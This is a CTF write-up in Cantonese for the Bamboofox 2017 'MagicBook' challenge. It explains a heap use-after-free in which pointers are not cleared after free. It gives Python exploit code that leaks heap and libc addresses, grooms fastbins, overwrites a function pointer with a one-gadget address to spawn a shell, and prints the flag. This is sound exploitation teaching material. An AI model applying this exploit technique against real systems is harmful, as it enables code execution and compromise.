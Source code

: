 # Bamboofox 2017 MagicBook

呢條係好簡單嘅heap overflow題,本身就應該solve到既(可惜揾錯one gadget RCE address),係到要推介下hitcon david 大大嘅 [One_gadget](https://github.com/david942j/one_gadget) ,有佢就唔洗係IDA Pro 揾(錯) one gadget RCE 

Menu:
```

oh my god!!!!
You are just a normal human.......
You can only use at most five kinds of magic (vanished).

====== Magic Book ======
  1. Add a chant.

  2. Delete a chant.

  3. spell it !!!

========================
Choose a feature :

```

有得add, delete同 spell.

Spell就係用黎call print chant 嘅 option,同時print chant本身都係chant object嘅一枝function pointer(好重要)

每一次‵call add, 首先會malloc 一個 0x10嘅chunk 放function pointer 同content pointer, 再malloc 一個由用家input size 嘅chunk 去放input content

heap view :
```
0x603010:	0x0000000000400826	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021
0x603030:	0x4141414141414141	0x000000000000000a
0x603040:	0x0000000000000000	0x0000000000020fc1
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000

```

而佢又有另一個table store heap address

```
0x6020a0 <list>:	0x0000000000603010	0x0000000000000000
0x6020b0 <list+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <list+32>:	0x0000000000000000	0x0000000000000000

```
個bug就係呢到,free完之後上面個table,係相應位置冇set 0,引致use after free

可以開始exploit 

不過由於無edit function 所以我地唔可以用unlink->GOT Hijacking 

普通fastbin attack 都唔得,因為add 會先malloc function pointer chunk再malloc content chunk

由於我地控制唔到function pointer chunk 會去乜位所以就會crash 

不過點都好我地都要leak libc, heapbase (呢到無用)

```python
print "[+] Leaking heapbase : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
add(3,128,"AAAA")
free(0)
free(2)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
heapbase=int(leakk,16)-0x180
print "heapbase :"+hex(heapbase)
add(2,128,"DDDDDDD")
free(3)
free(2)
free(1)
free(0)

print "[+] Leaking Libc : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
free(0)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
```

只要利用smallbin free完之後嘅fd bk pointer再配合puts leak libc heapbase 出黎(可以參考[Mental Snapshot - _int_free and unlink](http://uaf.io/exploitation/misc/2016/09/11/_int_free-Mental-Snapshot.html))  

Exploit :

首先我地要malloc 一個Fastbin with content <0x20 嘅chunk 加兩個好大嘅chunk ,1個 padding (add(3,128,"X"))
)

係malloc 細chunk(add(0,30,"X"))嘅時候,由於function pointer chunk同content pointer chunk屬於0x20 bin ,就會拎返屬於以前table[0] table[1] function pointer 嘅address

```python
add(0,30,"X")
add(1,800,"T"*300)
add(2,500,"B"*300)
add(3,128,"X")
```
再用呢個次序free左佢
 
咁下一次malloc嘅function pointer chunk 位置會拎到上面細chunk content位置(fastbin LIFO features)

Content chunk 會放左係之後,而且會覆蓋到以前嘅chunk(2 and 3)

```python
free(3)
free(2)
free(1)
free(0)
```
再一個大chunk (size=900)我地會完整覆蓋到以前嘅chunk 3
 
係chunk 3 function pointer chunk 位置放one gadget
利用use after free 走去menu spell->3 get shell

```python
known_heap=heapbase+0x190
rop=p64(pop_rax_ret)+p64(system)
add(1,900,"Q"*(96+48)+p64(one_gadget))
print "[+] Get Shell "
r.sendline("3")
r.recvuntil(":")
r.sendline("3")
r.sendline("ls -al")


```

Flag:

```
BAMBOOFOX{Hehehe...R3M3m6er_t0_s3T_Ni1_aFt3r_Fr3333333}
```



